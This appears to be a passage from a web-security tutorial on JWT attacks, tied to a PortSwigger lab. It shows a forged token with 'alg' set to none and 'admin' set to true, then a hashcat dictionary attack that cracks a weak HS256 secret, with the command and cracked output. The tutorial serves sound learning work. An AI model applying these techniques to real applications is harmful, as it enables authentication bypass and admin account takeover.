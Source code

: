 Well, we can try to modify it, like this 

```json
{
  "alg": "none",
  "typ": "JWT"
}
{
  "name": "hackerman",
  "iat": 1516239022,
  "admin": true
}
```
- We changed `alg` to none
- We changed `admin` to true

Simply encode the value back to base64 (that's what JWT uses) and try. 

Lab : https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification




#### 3) JWT HMAC weak secret

HMAC (HS256/HS384/HS512) uses symmetric encryption, meaning that the same key that is used to sign the token is also used to verify it.


Signature verifying is a self-contained process the token itself can be tested for valid passwords without having to send it back to the application to verify it.

If a JWT uses weak secret, that can be easily brute-forced, attacker can then sign their own JWT via the leaked key and, for example, takeover an account of an admin.

Let's suppose we have an application which does use JWT's for authentication, suppose we have this value : 
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6ImhhY2tlcm1hbiIsImlhdCI6MTUxNjIzOTAyMiwiYWRtaW4iOmZhbHNlfQ.VnnjiYN7yc0awRYAUIXdVL8ML2ktumQm_wkUWFlLuBg
```
It uses a weak secret key, that we can brute-force. While we could use `jwt_tool`, I also want to try something different, so let's do it via `hashcat`. Let's save the JWT token into a file and then execute this command :

`hashcat -a 0 -m 16500 jwt.txt wordlist.txt`<br>

`-a` - attack mode, in this case it's 0, which is dictionary attack.<br>
`-m` - hashmode, it's just a digit code for a hash we are going to crack, 16500 is JWT.<br>
`jwt.txt` - the file with JWT base64 encoded token<br>
`wordlist.txt` - wordlist<br>

The result :

```
Status...........: Cracked

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6ImhhY2tlcm1hbiIsImlhdCI6MTUxNjIzOTAyMiwiYWRtaW4iOmZhbHNlfQ.VnnjiYN7yc0awRYAUIXdVL8ML2ktumQm_wkUWFlLuBg:password
```

